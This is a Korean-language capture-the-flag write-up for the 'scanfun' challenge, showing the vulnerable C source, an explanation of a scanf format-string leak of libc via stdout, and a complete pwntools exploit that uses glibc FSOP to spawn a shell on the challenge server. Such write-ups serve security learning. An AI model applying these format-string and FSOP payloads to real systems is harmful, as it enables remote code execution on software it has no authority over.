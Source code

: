 # scanfun

### 보호 기법

![images/image.png](images/image.png)

### 코드 분석

```c
#include <stdio.h>
#include <stdlib.h>

void scan() {
    char scanner[0x50] = {0};
    while (1) {
        fprintf(stdout, "What do you want to scan?\n");
        scanf("%50s\n", scanner);
        scanf(scanner);
        
    }
}

int main() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    
    printf("Welcome to The Scanner (TM)!!!\n");
    printf("A hint for you. Just a byte, no more [0x%hhx]\n", (((unsigned long)stdout) >> 16) & 0xFF);
    scan();
}
```

코드는 간단하다.

`main()`: stdout의 하위 3번째 바이트 값을 출력한다.

`scan()`: while문을 돌면서 50자까지 입력을 받은 후, `scanf()` FSB가 일어난다.

### libc leak

코드 자체에 출력하는 부분이 따로 없기 때문에, `stdout->_IO_write_base` 값을 수정하여 leak이 되도록 하는 방법을 사용하였다.

먼저 stdout의 주소는 다음과 같다.

![images/image.png](images/image%201.png)

FSB가 일어나는 순간의 stack을 살펴보면 다음과 같다.

![images/image.png](images/image%202.png)

0x7ffcd9298528 (`$rsp + 0xb8`) 를 보면, `stdout`의 상위 5바이트와 동일한 것을 확인할 수 있다.

그렇기에 하위 3바이트만큼 overwrite하게 되면 `stdout`을 가리키게 할 수 있다.

참고로, 앞서 `main()` 함수에서 `stdout`의 하위 3번째 byte값을 주었고, 하위 12비트 값은 고정이므로 이 경우 1/16 bruteforce를 수행하면 된다.

특히 0x7ffcd92984c0 (`$rsp + 0x50`) 를 보면,  0x7ffcd92984d0 (`$rsp + 0x60`)값이 저장되어 있기 때문에 이 값을 인자로 사용하여 overwrite하면 된다.

필요한 `scanf()` 함수의 호출 형식은 다음과 같다.

```c
scanf("%16$91c%*c");
```

![images/image.png](images/image%203.png)

참고로 stdout의 `_IO_write_base`, `_IO_write_ptr` 의 하위 1바이트 값은 0x03으로, 단순히 0x00값으로만 overwrite하는 것은 leak을 하기에 충분하지 않고, 그렇기에 하위 2바이트값을 덮어서 leak을 진행해야 한다.

이 경우에도 1/16 bruteforce가 필요한 것 같지만, 앞서 stack의 값을 덮는 것이 성공했다면 사실상 주소가 고정된 것이므로 bruteforce가 필요하지 않다.

필요한 `scanf()` 함수의 호출 형식은 다음과 같다.

```c
scanf("%29$34c%*c");
```

### FSOP

libc leak이 완료되었으니, 앞서 사용했던 인자를 활용하여 stdout을 통한 FSOP를 진행하면 된다.

필요한 scanf() 함수의 호출 형식은 다음과 같다.

```c
scanf("%29$232c%*c");
```

### 익스플로잇 코드

```python
from pwn import *

# r = process("./scanner_patched")
r = remote("scanfun.harkonnen.b01lersc.tf", 8443, ssl=True)

def scan(data):
    r.sendafter(b"scan?\n", data)

r.recvuntil(b"[0x")
stdout_byte = int(r.recvline()[:-2], 16)
r.success(f"stdout byte: {hex(stdout_byte)}")

### libc leak ###
# stack overwrite to indicate stdout, 1/16 bruteforce
payload = b"%16$91c%*c".ljust(50, b"\x00")
payload += b"A" * 88
payload += b"\x80\x77" + p8(stdout_byte) + b"\n"
scan(payload)

# stdout overwrite
payload = b"%29$34c%*c".ljust(50, b"\x00")
payload += p64(0xfbad3887)
payload += p64(0) * 3
payload += b"\xe8\x77"
payload += b"\n"
scan(payload)

libc_base = u64(r.recvn(6).ljust(8, b"\x00")) - 0x21aaa0
r.success(f"libc base: {hex(libc_base)}")

### FSOP ###
payload = b"%29$232c%*c".ljust(50, b"\x00")
payload += b"\x01\x01\x01\x01;sh;" # wide_data
# payload = b"/bin/sh\x00"
payload += p64(0)
payload += p64(libc_base + 0x50d70)
payload += p64(0) # wide_data->_IO_write_base == 0
payload += p64(0)
payload += p64(1)
payload += p64(0) # wide_data->_IO_buf_base == 0
payload += p64(0) * 10
payload += p64(libc_base + 0x21b780 - 0x30) # _lock
payload += p64(0xffffffffffffffff) # _offset
payload += p64(0)
payload += p64(libc_base + 0x21b780) # _wide_data
payload += p64(0) * 6
payload += p64(libc_base + 0x2170c0) # vtable
payload += p64(libc_base + 0x21b780 - 0x58) # vtable of wide_data
scan(payload)

r.interactive()
```

마지막 FSOP 부분은 p0her님의 코드를 활용하였다.